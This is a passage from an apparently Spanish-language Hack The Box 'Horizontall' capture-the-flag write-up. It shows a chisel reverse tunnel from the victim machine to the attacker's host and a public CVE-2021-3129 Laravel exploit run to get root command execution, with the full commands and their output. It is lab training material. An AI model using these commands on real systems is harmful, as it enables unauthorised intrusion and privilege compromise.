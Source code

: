```bash
# VICTIMA
strapi@horizontall:/tmp$ ./chisel client 10.10.14.73:1234 R:8000:127.0.0.1:8000
2022/11/24 10:37:22 client: Connecting to ws://10.10.14.73:1234
2022/11/24 10:37:22 client: Connected (Latency 43.85418ms)
```
Ahora ya podemos acceder a través de `http://localhost:8000`

<img src="/assets/HTB/Horizontall/8000.png">

Buscando por vulnerabilidades asociadas a esta versión de laravel encontramos este repositorio de [nth347](https://github.com/nth347/CVE-2021-3129_exploit). Nos lo clonamos y traemos a nuestro equipo. Ejecutamos script según sus instrucciones

```bash
❯ python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 whoami
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Clonando en 'phpggc'...
remote: Enumerating objects: 3150, done.
remote: Counting objects: 100% (696/696), done.
remote: Compressing objects: 100% (262/262), done.
remote: Total 3150 (delta 458), reused 552 (delta 404), pack-reused 2454
Recibiendo objetos: 100% (3150/3150), 462.79 KiB | 2.36 MiB/s, listo.
Resolviendo deltas: 100% (1330/1330), listo.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

root

[i] Trying to clear logs
[+] Logs cleared
```
